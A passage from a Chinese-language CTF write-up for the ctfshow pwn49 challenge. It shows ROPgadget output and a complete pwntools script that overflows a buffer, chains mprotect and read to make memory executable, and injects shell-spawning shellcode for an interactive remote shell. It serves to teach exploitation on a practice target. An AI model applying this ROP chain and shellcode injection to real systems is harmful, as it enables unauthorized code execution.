0x0804d684 : ret 0xfbf
0x0808781d : ret 0xfc55
0x080750ba : ret 0xfd48
0x080930fa : ret 0xfdae
0x0808a42a : ret 0xfe3b
0x08062ad4 : ret 0xff3
0x08057927 : ret 0xff50
0x0807ea43 : ret 0xff52
0x0806b012 : ret 0xff65
0x0809ab6a : ret 0xff83
0x0805c613 : ret 0xff85
0x08072998 : ret 0xffba
0x0805bb9a : ret 0xffc4
0x0807b92c : ret 0xffd0
0x0804eaa9 : ret 0xffe0
0x08089b86 : ret 0xffe2
0x0808352a : ret 0xfff0
0x0804bcb2 : ret 0xfff7
0x0804e1a0 : ret 0xfff8
0x08083485 : ret 0xfff9
0x080998da : ret 0xfffa
0x08096fe5 : ret 0xfffb
0x0804f4b9 : ret 0xfffc
0x080806cf : ret 0xfffd
0x0806b720 : ret 0xfffe
0x0805be18 : ret 0xffff
0x080607e3 : ret 1
0x0806deaa : ret 2
0x0809ddba : ret 3
0x0805d6f3 : ret 4
0x080bc064 : ret 5
0x0806dd3c : ret 6
0x0805fed1 : ret 7
0x08062450 : ret 8
0x080bc864 : ret 9

Unique gadgets found: 633
```

因此这里得学一下用管道添加参数筛选一下：` | grep pop`

```
tasike@tasike-VM:~/Desktop$ ROPgadget --binary pwn49 --only "pop|ret" | grep pop
0x0809f422 : pop ds ; pop ebx ; pop esi ; pop edi ; ret
0x0809f41a : pop eax ; pop ebx ; pop esi ; pop edi ; ret
0x08056194 : pop eax ; pop edx ; pop ebx ; ret
0x080a8dd6 : pop eax ; ret
0x0806a68d : pop ebp ; pop ebx ; pop esi ; pop edi ; ret
0x0809f805 : pop ebp ; pop esi ; pop edi ; ret
0x0804834c : pop ebp ; ret
0x0805d6f2 : pop ebp ; ret 4
0x080a1db7 : pop ebp ; ret 8
0x0809f804 : pop ebx ; pop ebp ; pop esi ; pop edi ; ret
0x0805b75e : pop ebx ; pop edi ; ret
0x0806dfea : pop ebx ; pop edx ; ret
0x080a019b : pop ebx ; pop esi ; pop ebp ; ret
0x08048349 : pop ebx ; pop esi ; pop edi ; pop ebp ; ret
0x0805d6ef : pop ebx ; pop esi ; pop edi ; pop ebp ; ret 4
0x080a1db4 : pop ebx ; pop esi ; pop edi ; pop ebp ; ret 8
0x08049bd9 : pop ebx ; pop esi ; pop edi ; ret
0x08049807 : pop ebx ; pop esi ; ret
0x080481c9 : pop ebx ; ret
0x080c2fdc : pop ebx ; ret 0x6f9
0x0806e012 : pop ecx ; pop ebx ; ret
0x0804834b : pop edi ; pop ebp ; ret
0x0805d6f1 : pop edi ; pop ebp ; ret 4
0x080a1db6 : pop edi ; pop ebp ; ret 8
0x08069cbe : pop edi ; pop ebx ; ret
0x08061c3b : pop edi ; pop esi ; pop ebx ; ret
0x080921b8 : pop edi ; pop esi ; ret
0x08049bdb : pop edi ; ret
0x08056195 : pop edx ; pop ebx ; ret
0x0806e011 : pop edx ; pop ecx ; pop ebx ; ret
0x0806dfeb : pop edx ; ret
0x0809f419 : pop es ; pop eax ; pop ebx ; pop esi ; pop edi ; ret
0x08065aba : pop es ; pop edi ; ret
0x08065cfa : pop es ; ret
0x080a019c : pop esi ; pop ebp ; ret
0x0806dfe9 : pop esi ; pop ebx ; pop edx ; ret
0x08061c3c : pop esi ; pop ebx ; ret
0x0804834a : pop esi ; pop edi ; pop ebp ; ret
0x0805d6f0 : pop esi ; pop edi ; pop ebp ; ret 4
0x080a1db5 : pop esi ; pop edi ; pop ebp ; ret 8
0x08069cbd : pop esi ; pop edi ; pop ebx ; ret
0x08049bda : pop esi ; pop edi ; ret
0x08049808 : pop esi ; ret
0x08054706 : pop esp ; pop ebx ; pop esi ; pop edi ; pop ebp ; ret
0x0809e12e : pop esp ; ret
0x0805ad28 : pop esp ; ret 0x8b38
0x080622c9 : pop ss ; ret 0x2c73
0x08062c8a : pop ss ; ret 0x3273
0x080622b4 : pop ss ; ret 0x3e73
0x08062c70 : pop ss ; ret 0x4c73
0x0806229f : pop ss ; ret 0x5073
0x0806228a : pop ss ; ret 0x6273
0x08062c56 : pop ss ; ret 0x6673
0x08060805 : pop ss ; ret 0x830f
```

使用14行

```
0x080a019b : pop ebx ; pop esi ; pop ebp ; ret
```

从而我们可以利用这些来成功设置`mprotect`，但是我们需要继续控制程序，因此返回地址填`read`函数，接下来要将`shellcode`读入之前`mprotect`设置的可读可写可执行的`data`段。

`read`原型

```
ssize_t read(int fd, void *buf, size_t count);
fd 设为0时就可以从输入端读取内容 设为0 
buf 设为我们想要执行的内存地址 设为我们已找到的内存地址(也就是mprotect函数的第一个参数)
size 适当大小就可以 只要够读入shellcode就可以，设置大点无所谓
可以看到read函数也有三个参数要设置，我们就可以继续借用上面找到的有3个寄存器的ret指令
```


编写`attack49.py`

```python
from pwn import *
context(os = 'Linux', arch = 'i386', log_level = 'debug')
r = remote('pwn.challenge.ctf.show', 28167)

elf = ELF('./pwn49')
mprotect = elf.sym['mprotect']
popebx_esi_ebp = 0x080a019b
mfp = 0x080DA000  # mprotect_first_parameter
msp = 0x1000  # mprotect_second_parameter
mtp = 7  # mprotect_third_parameter

read = elf.sym['read']
rfp = 0  # read_first_parameter
rsp = mfp  # second_second_parameter
rtp = msp  # third_third_parameter

payload = cyclic(0x12 + 0x4) + p32(mprotect) + p32(popebx_esi_ebp) + p32(mfp) + p32(msp) + p32(mtp) + p32(read) + p32(popebx_esi_ebp) + p32(rfp) + p32(rsp) + p32(rtp) + p32(mfp)  # 这里再加一个mfp是为了最后运行这块的shellcode,因为之前的只是读入shellcode却没有执行
r.sendline(payload)

shellcode = asm(shellcraft.sh())
r.sendline(shellcode)

r.interactive()
```


